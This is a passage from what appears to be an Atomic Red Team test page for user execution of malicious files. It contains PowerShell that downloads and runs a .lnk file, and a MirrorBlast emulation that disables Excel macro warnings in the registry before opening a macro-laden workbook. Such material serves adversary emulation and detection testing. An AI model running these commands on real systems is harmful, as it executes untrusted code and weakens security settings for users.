 ```powershell
Invoke-WebRequest -OutFile $env:Temp\test10.lnk "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/bin/test10.lnk"
$file1 = "$env:Temp\test10.lnk"
Start-Process $file1
Start-Sleep -s 10
taskkill /IM a.exe /F
```

#### Cleanup Commands:

```powershell
$file1 = "$env:Temp\test10.lnk"
$file2 = "$env:Temp\a.exe"
Remove-Item $file1 -ErrorAction Ignore
Remove-Item $file2 -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #11 - Mirror Blast Emulation

Emulates the JS -> MSI chain of the MirrorBlast T505 campaign by executing an xlsm file designed.
Requires the 32 bit version of Office to run. [MirrorBlast Campaign Analysis](https://blog.morphisec.com/explosive-new-mirrorblast-campaign-targets-financial-companies)

**Supported Platforms:** Windows

**auto_generated_guid:** 24fd9719-7419-42dd-bce6-ab3463110b3c

#### Attack Commands: Run with `powershell`!

```powershell
Cd "C:\ProgramData\Microsoft\Windows\Start Menu\Programs"
New-ItemProperty -Path Registry::HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office\16.0\Excel\Security -Name "VBAWarnings" -Value "1" -PropertyType DWORD -Force | Out-Null
& '.\Excel 2016.lnk' "PathToAtomicsFolder\T1204.002\bin\mirrorblast_emulation.xlsm"
```

#### Cleanup Commands:

```powershell
reg delete "HKCU\SOFTWARE\Microsoft\Office\16.0\Excel\Security" /v "VBAWarnings" /f
```

<br/>
